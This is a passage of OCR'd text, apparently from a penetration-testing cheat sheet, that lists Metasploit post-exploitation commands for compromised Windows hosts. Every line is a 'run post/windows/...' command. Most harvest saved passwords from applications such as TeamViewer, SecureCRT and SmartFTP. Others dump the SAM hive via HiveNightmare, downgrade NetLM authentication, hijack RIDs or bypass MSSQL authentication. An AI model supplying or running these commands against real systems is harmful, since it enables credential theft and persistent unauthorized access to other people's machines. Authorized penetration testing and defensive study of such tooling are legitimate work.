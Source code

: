 run post/windows/gather/credentials/securecrt

run post/windows/gather/make_csv_orgchart

run post/windows/gather/credentials/smartermail

run post/windows/gather/credentials/smartftp

run post/windows/gather/credentials/spark_im

run post/windows/gather/netlm_downgrade

run post/windows/gather/credentials/srware



run post/windows/gather/credentials/steam (steam)

run post/windows/gather/credentials/tango

run post/windows/gather/credentials/teamviewer_passwords

run post/windows/gather/resolve_sid

run post/windows/gather/credentials/tlen



run post/windows/gather/credentials/tortoisesvn

run post/windows/gather/credentials/total_commander

run post/windows/gather/credentials/trillian

run post/windows/gather/credentials/windows_sam_hivenightmare

run post/windows/gather/word_unc_injector

## Windows Manage Modules

run post/windows/manage/archmigrate

run post/windows/manage/remove_host

run post/windows/manage/rid_hijack

run post/windows/manage/clone_proxy_settings

run post/windows/manage/mssql_local_auth_bypass

run post/windows/manage/rpcapd_start

run post/windows/manage/dell_memory_protect


run post/windows/manage/nbd_server

run post/windows/manage/enable_support_account


run post/windows/manage/forward_pageant



run post/windows/manage/hashcarve

